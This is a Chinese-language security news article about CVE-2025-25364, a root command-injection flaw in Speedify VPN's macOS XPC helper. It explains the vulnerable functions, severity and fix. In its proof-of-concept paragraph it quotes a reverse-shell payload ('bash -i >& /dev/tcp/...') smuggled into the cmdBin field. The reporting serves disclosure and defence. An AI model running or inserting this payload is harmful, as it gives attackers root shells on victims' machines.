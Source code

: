 #  【安全圈】Speedify VPN macOS 漏洞使攻击者能够提升权限   
 安全圈   2025-04-21 11:00  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aBHpjnrGylgOvEXHviaXu1fO2nLov9bZ055v7s8F6w1DD1I0bx2h3zaOx0Mibd5CngBwwj2nTeEbupw7xpBsx27Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
**关键词**  
  
  
  
安全漏洞  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aBHpjnrGyliaGDNUicceuQpZXIxVYMyQSzF8WiahsvAWc81Sp5KvpzibQkOIFepzJljibRzeNPeZEAvd751I6gHtPOw/640?wx_fmt=png&from=appmsg "")  
  
Speedify VPN 的macOS 应用程序中发现了一个重大安全漏洞，编号为 CVE-2025-25364，该漏洞使用户面临本地权限提升和整个系统被入侵的风险。   
  
SecureLayer7 发现的该漏洞存在于特权辅助工具 me.connectify.SMJobBlessHelper 中，该工具负责为 Speedify VPN 客户端以 root 权限执行系统级操作。该漏洞源于辅助工具的XPC（跨进程通信）接口中不正确的输入验证。  
  
具体来说，传入的 XPC 消息中的两个用户控制字段（cmdPath 和 cmdBin）被直接用于构造命令行字符串，而没有经过充分的清理。   
  
这个疏忽导致了命令注入漏洞，允许任何本地攻击者制作恶意 XPC 消息并注入以 root 身份执行的任意 shell 命令。  
  
攻击链涉及几个功能：  
  
XPC_Connection_Handler_block_invoke： XPC 消息的入口点。它检查字典类型的消息，如果“request”字段为“runSpeedify”，则调用 _handleLaunchSpeedifyMsg。cmdPath 或 cmdBin 的内容未进行验证。  
  
_handleLaunchSpeedifyMsg：从 XPC 字典中检索 cmdPath 和 cmdBin，并将它们（未经检查）传递给下一个函数。  
  
_RunSystemCmd：使用 asprintf 构造并执行命令字符串，直接嵌入用户提供的 cmdPath 和 cmdBin。关键代码如下：  
  
然后使用 system() 执行该命令字符串，这使得攻击者可以轻松注入其他 shell 命令。  
<table><tbody><tr style="box-sizing: border-box;background-color: rgb(240, 240, 240);"><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid rgba(0, 0, 0, 0);word-break: break-word;"><strong style="box-sizing: border-box;font-weight: bold;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">风险因素</span></font></font></strong></td><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid rgba(0, 0, 0, 0);word-break: break-word;"><strong style="box-sizing: border-box;font-weight: bold;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">细节</span></font></font></strong></td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid rgba(0, 0, 0, 0);word-break: break-word;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">受影响的产品</span></font></font></td><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid rgba(0, 0, 0, 0);word-break: break-word;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">适用于 macOS 的 Speedify VPN（最高版本 15.0.0）</span></font></font></td></tr><tr style="box-sizing: border-box;background-color: rgb(240, 240, 240);"><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid rgba(0, 0, 0, 0);word-break: break-word;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">影响</span></font></font></td><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid rgba(0, 0, 0, 0);word-break: break-word;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">本地权限提升；以 root 身份执行任意命令。</span></font></font></td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid rgba(0, 0, 0, 0);word-break: break-word;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">漏洞利用前提条件</span></font></font></td><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid rgba(0, 0, 0, 0);word-break: break-word;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">本地访问；能够将精心设计的 XPC 消息发送给辅助工具</span></font></font></td></tr><tr style="box-sizing: border-box;background-color: rgb(240, 240, 240);"><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid rgba(0, 0, 0, 0);word-break: break-word;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">CVSS 3.1 评分</span></font></font></td><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid rgba(0, 0, 0, 0);word-break: break-word;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">9.8（严重）</span></font></font></td></tr></tbody></table>  
概念验证漏洞  
  
概念验证 (PoC) 漏洞通过向易受攻击的服务发送精心设计的 XPC 消息 证明了该问题。  
  
通过将 cmdBin 设置为诸如“; bash -i >& /dev/tcp/127.0.0.1/1339 0>&1; echo ”之类的有效载荷，攻击者可以生成具有 root 权限的反向 shell。该漏洞代码以 Objective-C 编写，连接到 me.connectify.SMJobBlessHelper XPC 服务并传递恶意负载，从而立即获得 root 级访问权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aBHpjnrGyliaGDNUicceuQpZXIxVYMyQSzZl5PJFY5FZxSC296aicViawHncl1hZDMbh1kaL8DHJY4gNM2O8uyzLJQ/640?wx_fmt=png&from=appmsg "")  
  
由于辅助工具作为根级守护进程  
  
   
(/Library/PrivilegedHelperTools/me.connectify.SMJobBlessHelper) 运行，成功利用该漏洞意味着攻击者可以：  
  
读取、修改或删除敏感系统文件。  
  
安装持久性恶意软件或后门。  
  
完全控制受影响的 macOS 设备。  
  
因此，此漏洞对运行 Speedify VPN 易受攻击版本（15.4.1 之前版本）的任何系统都构成严重风险。  
  
Speedify VPN在 15.4.1 版本中解决了该漏洞，其中包括对辅助工具的完全重写。   
  
新版本消除了不安全的 XPC 处理并实现了适当的输入验证，关闭了命令注入向量。   
  
强烈建议用户更新到最新版本，以降低被利用的风险。  
  
  
  END    
  
  
阅读推荐  
  
  
[【安全圈】国家部委张某，主动投靠境外间谍机关，案发时企图携密叛逃](https://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652069186&idx=1&sn=61924afdbc1ff980ab4242f33589c352&scene=21#wechat_redirect)  
  
  
  
[【安全圈】个人信息3毛/条！快递公司竟成信息贩子，倒卖12.9万条客户数据](https://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652069186&idx=2&sn=13b718634e721adf6bd2013d5b004d40&scene=21#wechat_redirect)  
  
  
  
[【安全圈】5700万用户安装的Chrome扩展暗藏追踪代码](https://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652069186&idx=3&sn=2b50780a02195bca113399ee09912a67&scene=21#wechat_redirect)  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCEft6M27yliapIdNjlcdMaZ4UR4XxnQprGlCg8NH2Hz5Oib5aPIOiaqUicDQ/640?wx_fmt=gif "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCEDQIyPYpjfp0XDaaKjeaU6YdFae1iagIvFmFb4djeiahnUy2jBnxkMbaw/640?wx_fmt=png "")  
  
**安全圈**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCEft6M27yliapIdNjlcdMaZ4UR4XxnQprGlCg8NH2Hz5Oib5aPIOiaqUicDQ/640?wx_fmt=gif "")  
  
  
←扫码关注我们  
  
**网罗圈内热点 专注网络安全**  
  
**实时资讯一手掌握！**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCE3vpzhuku5s1qibibQjHnY68iciaIGB4zYw1Zbl05GQ3H4hadeLdBpQ9wEA/640?wx_fmt=gif "")  
  
**好看你就分享 有用就点个赞**  
  
**支持「****安全圈」就点个三连吧！**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCE3vpzhuku5s1qibibQjHnY68iciaIGB4zYw1Zbl05GQ3H4hadeLdBpQ9wEA/640?wx_fmt=gif "")  
  
  

